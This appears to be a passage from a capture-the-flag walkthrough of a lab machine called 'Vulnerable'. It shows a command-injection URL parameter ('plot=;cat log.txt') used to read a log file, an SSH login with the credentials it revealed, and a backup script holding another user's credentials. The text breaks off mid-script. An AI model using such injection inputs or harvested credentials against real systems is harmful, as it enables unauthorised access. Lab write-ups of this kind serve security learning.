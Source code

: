 <br><br><br>

index.php?plot=;cat log.txt
![2025-02-10_13-40](https://github.com/user-attachments/assets/afd8406e-0b1d-45a7-a98c-93dd4b75e3fc)
<br><br><br>


with those credentials I can log in via ssh
<pre><code> ~> ssh basterd@10.10.85.174 -p 55007
basterd@10.10.85.174's password: 
Permission denied, please try again.
basterd@10.10.85.174's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

8 packages can be updated.
8 updates are security updates.


Last login: Mon Feb 10 18:16:49 2025 from 10.9.1.17
$ /bin/bash
basterd@Vulnerable:~$ 
 </code></pre>
<br><br><br>

in the backup.sh file we can find stoner's credentials
<pre><code> basterd@Vulnerable:~$ ls -la
total 16
drwxr-x--- 3 basterd basterd 4096 Aug 22  2019 .
drwxr-xr-x 4 root    root    4096 Aug 22  2019 ..
-rwxr-xr-x 1 stoner  basterd  699 Aug 21  2019 backup.sh
-rw------- 1 basterd basterd    0 Aug 22  2019 .bash_history
drwx------ 2 basterd basterd 4096 Aug 22  2019 .cache
basterd@Vulnerable:~$ cat backup.sh
REMOTE=1.2.3.4

SOURCE=/home/stoner
TARGET=/usr/local/backup

LOG=/home/stoner/bck.log
 
DATE=`date +%y\.%m\.%d\.`

USER=stoner
#stoner'scredentials

ssh $USER@$REMOTE mkdir $TARGET/$DATE


if [ -d "$SOURCE" ]; then
    for i in `ls $SOURCE | grep 'data'`;do
	    echo "Begining copy of" $i  >> $LOG
	    scp  $SOURCE/$i $USER@$REMOTE:$TARGET/$DATE
	    echo $i "completed" >> $LOG
		